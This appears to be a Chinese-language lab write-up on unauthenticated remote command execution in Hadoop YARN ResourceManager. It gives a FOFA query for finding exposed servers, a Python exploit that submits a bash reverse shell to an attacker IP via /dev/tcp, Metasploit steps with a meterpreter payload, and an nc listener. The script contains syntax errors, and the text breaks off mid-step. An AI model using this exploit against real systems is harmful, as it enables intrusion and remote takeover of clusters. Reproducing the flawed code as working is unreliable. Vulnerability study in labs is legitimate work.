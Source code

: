 ```shell
docker-compose up -d
```

### 漏洞发现
- fofa获取资产语句 `app="APACHE-hadoop-YARN"`
- 访问`http://ip:8088` 返回 `Hadoop YARN ResourceManager WebUI` 页面
- POST请求: 向`http://ip:8088/ws/v1/cluster/apps/new-application`发送POST请求, 如果响应返回`application-id`则存在漏洞

### 漏洞利用
#### 脚本利用
```python
import requests
import json

target = 'http://192.168.81.127:8088/'
lhost = '192.168.81.238'
url = f'{target}ws/v1/cluster/apps/new-application'
resp = requests.post(url).content.decode('utf-8')
resp_json = json.loads(resp)

app_id  ; resp_json['application-id']
url = f'{target}ws/v1/cluster/apps'
data = {
	'application-id': app_id,
	'application-name': 'get-shell',
	'am-container-spec': {
		'commands': {'command':f'/bin/bash -i >& /dev/tcp/{lhost}/5566 0>&1'}
	}
	'application-type': 'YARN',
}
requests.post(url, json=data)
```

#### 模块利用
```
msfconsole -q
use exploit/linux/http/hadoop_unauth_exec
set rhosts 192.168.81.127
set payload linux/x64/meterpreter/reverse_tcp
set lhost 192.168.81.238
set lport 5566
exploit
```

### 漏洞复现
1. 监听端口等待反弹shell连接
```
nc -lvvp 5566
```
2. 调用`New Application API`创建新application
	- POST请求`http://ip:8088/ws/v1/cluster/apps/new-application`
	- 返回信息, 包含新application id
```
<NewApplication>
<application-id>application_1688957760252_0004</application-id>
<maximum-resource-capability>
<memory>8192</memory>
<vCores>4</vCores>
</maximum-resource-capability>
</NewApplication>
```
 3. 调用`Submit Application API`提交命令
	- POST请求`http://ip:8088/ws/v1/cluster/apps`, 提交执行命令